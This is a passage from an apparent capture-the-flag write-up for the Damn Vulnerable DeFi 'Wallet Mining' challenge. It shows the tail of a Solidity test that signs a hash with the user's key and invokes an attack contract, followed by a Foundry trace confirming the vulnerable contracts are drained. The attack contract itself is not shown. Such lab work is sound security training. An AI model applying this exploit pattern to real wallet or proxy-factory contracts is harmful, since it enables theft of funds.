 ```solidity
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(userPrivateKey, txHash);
    bytes memory userSignature = abi.encodePacked(r, s, v);

    // Perform the complete attack
    attacker.attack(userSignature);
}
```

### Running Result

```
Ran 1 test for test/wallet-mining/WalletMining.t.sol:WalletMiningChallenge
[PASS] test_walletMining() (gas: 1375893)
Traces:
  [1410193] WalletMiningChallenge::test_walletMining()
    ├─ [0] VM::startPrank(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C])
    │   └─ ← [Return]
    ├─ [943333] → new WalletMiningAttack@0xce110ab5927CC46905460D930CCa0c6fB4666219
    │   └─ ← [Return] 3823 bytes of code
    ├─ [0] VM::sign("<pk>", 0x3f229902eda517967c1d66e7d163fe96ee457f7ded905261ebb451cbc87b8c3d) [staticcall]
    │   └─ ← [Return] 27, 0x5379a441fc3f8159cdfc96256b66d5e9bb097569d5cbe9b5effd61329f96c5fe, 0x476b34d19f6f758ed36157507345a817c14c4bc26cb73ad7fe58cc94d4d2f738
    ├─ [393417] WalletMiningAttack::attack(0x5379a441fc3f8159cdfc96256b66d5e9bb097569d5cbe9b5effd61329f96c5fe476b34d19f6f758ed36157507345a817c14c4bc26cb73ad7fe58cc94d4d2f7381b)

...
...

    ├─ [294] WalletDeployer::cook() [staticcall]
    │   └─ ← [Return] SafeProxyFactory: [0xF2eEc3525F58f173218e43260083c38Cc9946fe5]
    ├─ [0] VM::assertNotEq(1895, 0, "No code at factory address") [staticcall]
    │   └─ ← [Return]
    ├─ [206] WalletDeployer::cpy() [staticcall]
    │   └─ ← [Return] Safe: [0xa25Be9F75356C026430e212b95a1fA64bb00Ca12]
    ├─ [0] VM::assertNotEq(12443 [1.244e4], 0, "No code at copy address") [staticcall]
    │   └─ ← [Return]
    ├─ [0] VM::assertNotEq(82, 0, "No code at user's deposit address") [staticcall]
    │   └─ ← [Return]
    ├─ [519] DamnValuableToken::balanceOf(SafeProxy: [0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b]) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::assertEq(0, 0, "User's deposit address still has tokens") [staticcall]
    │   └─ ← [Return]
    ├─ [519] DamnValuableToken::balanceOf(WalletDeployer: [0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5]) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::assertEq(0, 0, "Wallet deployer contract still has tokens") [staticcall]
    │   └─ ← [Return]
    ├─ [0] VM::getNonce(user: [0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D]) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::assertEq(0, 0, "User executed a tx") [staticcall]
    │   └─ ← [Return]
    ├─ [0] VM::getNonce(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C]) [staticcall]
    │   └─ ← [Return] 1
    ├─ [0] VM::assertEq(1, 1, "Player executed more than one tx") [staticcall]
    │   └─ ← [Return]
    ├─ [519] DamnValuableToken::balanceOf(user: [0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D]) [staticcall]
    │   └─ ← [Return] 20000000000000000000000000 [2e25]
    ├─ [0] VM::assertEq(20000000000000000000000000 [2e25], 20000000000000000000000000 [2e25], "Not enough tokens in user's account") [staticcall]
```